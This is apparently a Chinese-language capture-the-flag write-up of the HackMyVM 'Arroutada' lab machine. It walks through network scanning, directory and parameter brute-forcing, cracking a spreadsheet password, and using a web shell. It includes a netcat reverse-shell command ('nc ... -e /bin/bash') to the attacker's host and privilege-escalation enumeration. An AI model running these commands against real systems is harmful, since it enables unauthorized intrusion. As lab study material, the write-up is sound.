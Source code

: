## 1、靶场搭建

PS：一楼使用的网络需要额外认证，不能采用桥接模式。

## 2、网络信息收集

```bash
sudo arp-scan -l -I eth0
#将扫描到的所有网络信息输出到net-info.txt中，并提取出所有活动设备的ip到ip-info.txt
sudo arp-scan -l > net-info.txt
awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' net-info.txt > ip-info.txt
```

![image-20240620104841530](hmv.arroutada.assets/image-20240620104841530.png)

## 3、端口信息收集

```bash
#理论上不知道在哪个主机有开放端口的情况下应该将所有的主机都扫描，但是此处其实已知是靶机（192.168.6.166）有开放端口，因此只扫描靶机即可
#sudo nmap -sV -p- -Pn -iL ip-info.txt
sudo nmap -sV -p- -Pn -iL 192.168.6.166
###
#-s代表scan,V代表version，对主机版本信息扫描，还有S为SYN扫描，T为TCP连接扫描，U为UDP连接扫描。
#-p-为扫描1-65535所有端口，默认情况为只扫描到1000端口
#-Pn，即ping no，nmap在端口扫描的时候会先发icmp，为了避免防火墙等设备阻止icmp请求导致nmap认为主机不在线（而且arp-scan已知该主机在线）。
###


###
##为什么使用arp-scan发现主机而不用imcp发现？
#arp在2.5层，因此无视基于ip过滤的防火墙，但是icmp是在3.5层。
###
```

![image-20240620104439637](hmv.arroutada.assets/image-20240620104439637.png)

## 4、路径扫描

```bash
#开放了端口80，http，可以通过暴力破解找到有哪些文件，从而分析出哪些文件可以被访问，哪些不允许被访问，根据收集的信息决定进一步渗透的方法。
sudo apt instasll gobuster
gobuster dir -u http://192.168.6.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,bak,jpg,txt,html

###
#403表示有文件但无访问权限，301代表重定向，200代表成功访问。
#因此接下来看看能从200和301状态码的网页中获取到什么有用的信息
###
```

![image-20240620155517960](hmv.arroutada.assets/image-20240620155517960.png)

```bash
###
#首先访问index.html，为一个握拳且无有效信息的页面(除非它是个包含秘密数据的特殊图像)
#其次访问imgs和scout，imgs下即为index.html中的握拳图片，没啥用。scout中为一个提示，表明有重要文件存在于/scout/******/docs/下。这就可以想到采用模糊测试工具暴力破解。
###
```

<img src="hmv.arroutada.assets/image-20240620115521366.png" alt="image-20240620115521366" style="zoom: 25%;" />

<img src="hmv.arroutada.assets/image-20240620115528095.png" alt="image-20240620115528095" style="zoom:33%;" />

![image-20240620115459626](hmv.arroutada.assets/image-20240620115459626.png)

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirb/big.txt -u 'http://192.168.6.166/scout/FUZZ/docs/'  --hl 3
###
#--hc==404，hc即hide code，忽略404相应。FUZZ用户模糊测试，类似通配符。
###

###
#疑问：为什么要设置--hl 3，不看响应体长度为3的响应？？？有什么意义在这里？
###
```

![image-20240620155129301](hmv.arroutada.assets/image-20240620155129301.png)

```bash
#破解到了重要文件所在的路径，访问/scout/j2/docs/，发现存在两个有效文件（其它z***文件是什么用处，模拟存在好多文件？）。打开pass.txt发现一个用户名+密码，打开shellfile.ods发现需要输入密码，因此将其down下来尝试破解（有一个核心问题，如果不是教程，我怎么知道这个.ods文件的加密模式是可以被破解的？这个问题与文尾疑问相对应）。
wget http://192.168.6.166/scout/j2/docs/shellfile.ods
libreoffice2john shellfile.odf > key_hash
john -w=/usr/share/wordlists/rockyou.txt key_hash
```

<img src="hmv.arroutada.assets/image-20240620142240114.png" alt="image-20240620142240114" style="zoom: 50%;" />

![image-20240620142256845](hmv.arroutada.assets/image-20240620142256845.png)

![image-20240620142319051](hmv.arroutada.assets/image-20240620142319051.png)



![image-20240620150501324](hmv.arroutada.assets/image-20240620150501324.png)

```bash
#破解得到.ods的密码为john11，输入后得到了一个新的文件路径，大概里thejabasshell.php是下一步的突破点。
#访问发现是个空白页面，然后爆破参数。
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.6.166/thejabasshell.php?FUZZ=whoami' -fw 1

###
#疑问1：这里作者为什么会想到爆破html参数名？这是原因还是经验？空白html就要想到爆破参数名？
#疑问2：我理解这里FUZZ=whoami是根据返回的状态码确定正确的参数名，但为什么要设定参数值为whoami，如果靶机上的server将whoami这种单词进行了黑名单过滤，岂不是也会返回错误的状态码？没法控制单一变量，那岂不是试到了正确的参数名也可能会被认为是错误的参数名吗。
###
```

<img src="hmv.arroutada.assets/image-20240620150742209.png" alt="image-20240620150742209" style="zoom:50%;" />![image-20240620151057367](hmv.arroutada.assets/image-20240620151057367.png)

<img src="hmv.arroutada.assets/image-20240620155051799.png" alt="image-20240620155051799" style="zoom:50%;" />

```bash
#爆破到了一个正确的参数名a，访问它得到了一个提示说突破点在参数b上（而且可以看出来a的参数值暂时并没有作为命令在靶机上执行）
#尝试给参数b一个参数值（b=ls)，发现还是提示突破点在参数b上。这里感觉就像是a是输入了一个用户名，需要b的参数值作为密码匹配成功才能看到某些信息。因此，继续爆破b的参数值。
ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://192.168.6.166/thejabasshell.php?a=whoami&b=FUZZ' -fw 5
```



![image-20240620153112013](hmv.arroutada.assets/image-20240620153112013.png)

![image-20240620153513536](hmv.arroutada.assets/image-20240620153513536.png)

<img src="hmv.arroutada.assets/image-20240620154906918.png" alt="image-20240620154906918" style="zoom:50%;" />

```bash
#得到b的参数值为pass时返回了200状态码，尝试输入b=pass，返回了www-data。再试一下别的命令a=ls,发现也被执行了，基本证明a的值会在b的值为pass时作为命令执行
```

![image-20240620155701151](hmv.arroutada.assets/image-20240620155701151.png)

![image-20240620155734544](hmv.arroutada.assets/image-20240620155734544.png)

## 4、获取shell

```bash
#现有条件为命令可执行，且靶机仅开放了80端口，没有开放ssh的22端口，因此无法正向shell，只能反弹shell。先kali使用nc监听5555端口，然后给a的值设置为nc 192.168.6.149 5555 -e /bin/bash然后访问,拿到shell。
nc -lvp 5555
script /dev/null -c bash
```

![image-20240620162119592](hmv.arroutada.assets/image-20240620162119592.png)![image-20240620160820481]

![image-20240620162220315](hmv.arroutada.assets/image-20240620162220315.png)

![image-20240620163625456](hmv.arroutada.assets/image-20240620163625456.png)

```bash
#查看定时文件，发现没有
crontab -l
#查看suid命令和文件
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
#查看是否有其它未开放但监听的端口，有一个8000端口
ss -altp
###
#疑问1：查看定时文件、查找可利用suid命令和文件、查看监听但未开放端口，这是在任何场景下拿到普通权限后提权的思路吗，除此之外还有哪些思路？
#疑问2：为什么作者说没有可用suid命令和文件？这不是有吗？是无法被利用进行渗透吗？
###
```

![image-20240620163957853](hmv.arroutada.assets/image-20240620163957853.png)

![image-20240620164939453](hmv.arroutada.assets/image-20240620164939453.png)

![image-20240620164954455](hmv.arroutada.assets/image-20240620164954455.png)

![image-20240620164510824](hmv.arroutada.assets/image-20240620164510824.png)

```bash
#本地命令行访问这个端口-用wget down下来html页面（我看另一个作者还用curl去尝试down，收集一下用于down的命令），必须要进入tmp目录下wget
wget http://lcoalhost:8000
cat index.html
###
#疑问1：为什么在tmp下才能wget成功？
```

<img src="hmv.arroutada.assets/image-20240620165605371.png" alt="image-20240620165605371" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620170355606.png" alt="image-20240620170355606" style="zoom:50%;" />

![image-20240620170626021](hmv.arroutada.assets/image-20240620170626021.png)

```bash
#得到一个Brainfuck编码，解码结果为all HackMyVM hackers!!且提示了一个文件priv.php，这个文件应该就是接下来的突破点。
```

![image-20240620170824511](hmv.arroutada.assets/image-20240620170824511.png)

```bash
###
#疑问：我并没有查到相关官方文档说.ods中默认采用PBKDF2进行密钥派生得到密钥并利用AES对称加密，然后用SHA-1散列派生的密钥，是因为我没有查到相关文档吗？如果.ods采用未知的加密模式怎么办？还是说libreoffice2john工具能自动识别.ods文件的加密模式？
###

有没有一些常用的好用的字典？
#爆破文件目录和文件名
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
#爆破密码
/usr/share/wordlists/rockyou.txt
```

